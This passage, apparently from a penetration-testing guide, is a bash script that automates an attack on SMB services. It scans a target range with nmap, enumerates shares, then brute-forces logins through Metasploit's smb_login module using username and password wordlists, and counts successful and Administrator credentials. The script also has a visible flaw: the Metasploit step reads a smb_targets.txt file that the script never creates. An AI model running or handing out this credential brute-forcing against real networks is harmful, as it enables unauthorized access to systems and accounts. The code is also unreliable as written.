 ### **⚙️ Automation Script for Efficiency:**

```bash
#!/bin/bash
# smb_assessment_automation.sh - Comprehensive SMB security assessment

TARGET_RANGE=$1
LOGFILE="smb_assessment_$(date +%Y%m%d_%H%M%S).log"

echo "[+] Starting SMB security assessment for $TARGET_RANGE" | tee $LOGFILE

# Phase 1: Network Discovery
echo "[+] Phase 1: SMB service discovery" | tee -a $LOGFILE
nmap -sS -p 139,445 --open $TARGET_RANGE > smb_discovery.txt
SMB_HOSTS=$(grep "Nmap scan report" smb_discovery.txt | awk '{print $5}')

echo "[+] SMB hosts identified: $(echo $SMB_HOSTS | wc -w)" | tee -a $LOGFILE

# Phase 2: Service Enumeration
echo "[+] Phase 2: SMB service enumeration" | tee -a $LOGFILE
for host in $SMB_HOSTS; do
    echo "[+] Enumerating $host" | tee -a $LOGFILE
    nmap --script smb-protocols,smb-enum-shares $host >> smb_enum_$host.txt
done

# Phase 3: Automated Credential Testing
echo "[+] Phase 3: Credential assessment" | tee -a $LOGFILE
msfconsole -q -x "
use auxiliary/scanner/smb/smb_login;
set RHOSTS file:smb_targets.txt;
set USER_FILE /usr/share/wordlists/common_users.txt;
set PASS_FILE /usr/share/wordlists/passwords.txt;
set THREADS 5;
set VERBOSE false;
exploit;
creds;
exit
" > metasploit_results.txt

# Phase 4: Parse Results and Generate Report
echo "[+] Phase 4: Results analysis" | tee -a $LOGFILE
SUCCESSFUL_CREDS=$(grep "Success:" metasploit_results.txt | wc -l)
ADMIN_ACCESS=$(grep "Administrator" metasploit_results.txt | wc -l)

echo "[+] Assessment Summary:" | tee -a $LOGFILE
echo "    - SMB hosts discovered: $(echo $SMB_HOSTS | wc -w)" | tee -a $LOGFILE
echo "    - Successful credentials: $SUCCESSFUL_CREDS" | tee -a $LOGFILE
echo "    - Administrative access: $ADMIN_ACCESS" | tee -a $LOGFILE

echo "[+] Assessment complete. Review $LOGFILE for details." | tee -a $LOGFILE
```
